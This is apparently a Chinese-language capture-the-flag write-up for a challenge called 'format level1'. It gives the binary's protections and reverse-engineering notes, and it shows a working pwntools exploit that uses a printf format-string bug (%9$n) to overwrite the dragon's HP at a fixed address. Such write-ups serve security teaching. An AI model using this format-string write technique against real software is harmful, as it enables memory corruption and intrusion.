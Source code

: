 # format level1

## 文件分析

下载`format_level1`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 逆向

程序员斗恶龙的故事开始了！由于我们先攻击龙，
所以我们的目标是我们的atk>龙的hp即可  
程序中我们的初始atk为1，而龙的hp为10M，每次沉淀可以增加1点atk  
~~那么只要沉淀10,000,000次就可以秒杀恶龙了~~  
程序中存在printf漏洞，将大数字注入atk较难，但将小数字注入hp却较简单，
只要将龙的血量置1，就可以达成目标，拿到flag

程序未开启PIE，所以地址没有偏移，方便直接注入；
通过gdb调试可知，`talk`函数中printf漏洞的str位于栈上第7个，
由此可构造如下exp进行血量修改

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 38469)
sh.sendline(b'2') # 练习时长1坤年，作者也是小黑子
sh.sendline(b'3') # talk with dragon
dragonhpAddr = 0x0804c00c
sh.sendline(b'0%9$n000' + p32(dragonhpAddr)) # write 1 to addr (1x'0')
sh.sendline(b'1') # attack the dragon
sh.interactive()
```

> 注：arg7:'0%9$', arg8:'n000', arg9:dragonAddr；所有0都是占位符，无实际含义

这道题构造payload时出了点小问题：sendline太快，最后的`1`没读到，
要重新打，服务器读取问题要考虑！遇到这种情况就要使用sendlineafter()

Done.

